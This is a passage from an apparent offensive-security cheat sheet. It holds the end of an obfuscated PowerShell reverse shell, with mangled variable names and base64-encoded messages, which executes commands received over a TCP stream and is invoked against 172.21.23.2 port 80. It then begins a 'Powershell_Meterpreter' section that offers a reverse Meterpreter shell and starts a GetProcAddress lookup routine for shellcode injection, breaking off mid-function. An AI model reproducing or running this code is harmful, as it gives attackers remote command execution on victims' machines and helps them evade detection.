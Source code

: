 ```powershell
        while((${/===\__/=\/=\_/==} = ${/==\/====\___/\_/}.Read(${/==\/===\_/\_____}, 0, ${/==\/===\_/\_____}.Length)) -ne 0)
        {
            ${/=\______/\__/\/=} = New-Object -TypeName System.Text.ASCIIEncoding
            ${_/\/\__/\/\____/\} = ${/=\______/\__/\/=}.GetString(${/==\/===\_/\_____},0, ${/===\__/=\/=\_/==})
            try
            {
                ${/=\/=\/\__/=\/==\} = (iex -Command ${_/\/\__/\/\____/\} 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('UwBvAG0AZQB0AGgAaQBuAGcAIAB3AGUAbgB0ACAAdwByAG8AbgBnACAAdwBpAHQAaAAgAGUAeABlAGMAdQB0AGkAbwBuACAAbwBmACAAYwBvAG0AbQBhAG4AZAAgAG8AbgAgAHQAaABlACAAdABhAHIAZwBlAHQALgA='))) 
                Write-Error $_
            }
            ${__/\____/===\/\__}  = ${/=\/=\/\__/=\/==\} + $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('UABTACAA'))) + (gl).Path + '> '
            ${__/==\/==\_/\_/\/} = ($error[0] | Out-String)
            $error.clear()
            ${__/\____/===\/\__} = ${__/\____/===\/\__} + ${__/==\/==\_/\_/\/}
            ${___/==\__/\___/==} = ([text.encoding]::ASCII).GetBytes(${__/\____/===\/\__})
            ${/==\/====\___/\_/}.Write(${___/==\__/\___/==},0,${___/==\__/\___/==}.Length)
            ${/==\/====\___/\_/}.Flush()  
        }
        ${/=\___/\__/\___/=}.Close()
        if (${_/===\___/=====\_})
        {
            ${_/===\___/=====\_}.Stop()
        }
    }
    catch
    {
        Write-Warning $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('UwBvAG0AZQB0AGgAaQBuAGcAIAB3AGUAbgB0ACAAdwByAG8AbgBnACEAIABDAGgAZQBjAGsAIABpAGYAIAB0AGgAZQAgAHMAZQByAHYAZQByACAAaQBzACAAcgBlAGEAYwBoAGEAYgBsAGUAIABhAG4AZAAgAHkAbwB1ACAAYQByAGUAIAB1AHMAaQBuAGcAIAB0AGgAZQAgAGMAbwByAHIAZQBjAHQAIABwAG8AcgB0AC4A'))) 
        Write-Error $_
    }
}
_/=\/==\_/==\_____ -__/\/\/=\_/\/\____ -__/==\/=\_/==\/==\ 172.21.23.2 -__/====\/\___/=\/\ 80
```
<br>

### Powershell_Meterpreter

- A even better shell
- Rev meterpreter shell with powershell, just replace shellcode


```powershell
function LookupFunc {
    Param ($moduleName, $functionName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
        Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp = @()
    $assem.GetMethods() | ForEach-Object { If ($_.Name -eq "GetProcAddress") { $tmp += $_ } }
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)),
$functionName))
}
function getDelegateType {
```